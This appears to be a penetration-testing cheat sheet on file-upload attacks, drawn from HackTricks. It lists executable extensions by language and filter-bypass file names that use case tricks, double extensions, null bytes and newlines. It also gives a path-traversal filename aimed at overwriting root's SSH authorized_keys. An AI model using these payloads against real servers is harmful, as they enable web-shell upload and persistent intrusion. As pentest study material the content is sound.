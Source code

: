 
https://book.hacktricks.xyz/pentesting-web/file-upload

#### ASPX or PHP
Find out if the back-end is running ASPX or PHP, 

There are ASPX and PHP reverse shells.
#### Bypassing filters
###### General extensions
```
PHP: .php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml, .pgif, .shtml, .htaccess, .phar, .inc, .hphp, .ctp, .module
 - Working in PHPv8: .php, .php4, .php5, .phtml, .module, .inc, .hphp, .ctp
ASP: .asp, .aspx, .config, .ashx, .asmx, .aspq, .axd, .cshtm, .cshtml, .rem, .soap, .vbhtm, .vbhtml, .asa, .cer, .shtml
Jsp: .jsp, .jspx, .jsw, .jsv, .jspf, .wss, .do, .action
Coldfusion: .cfm, .cfml, .cfc, .dbm
Flash: .swf
Perl: .pl, .cgi
Erlang Yaws Web Server: .yaws
```

#### Extension filters
###### General filter types
| Filter | Bypasses |
| ---- | ---- |
| Case checking | `.pHp` |
| First extension checking | `.png.php` |
| Adding a special character | `.php%00`, `.php%0a` |
| Secondary filetypes | `.php5`, `.php2` |
###### Small list
```
file.php%20
file.php%0a
file.php%00
file.php%0d%0a
file.php/
file.php.\
file.
file.php....
file.pHp5....

file.png.php
file.png.pHp5
file.php#.png
file.php%00.png
file.php\x00.png
file.php%0a.png
file.php%0d%0a.png
file.phpJunk123png

file.png.jpg.php
file.php%00.png%00.jpg

file.php.png
```

### Non-executables
In `Burp Suite`, change the file to any known user
```
filename="../../../../../../../root/.ssh/authorized_keys"
```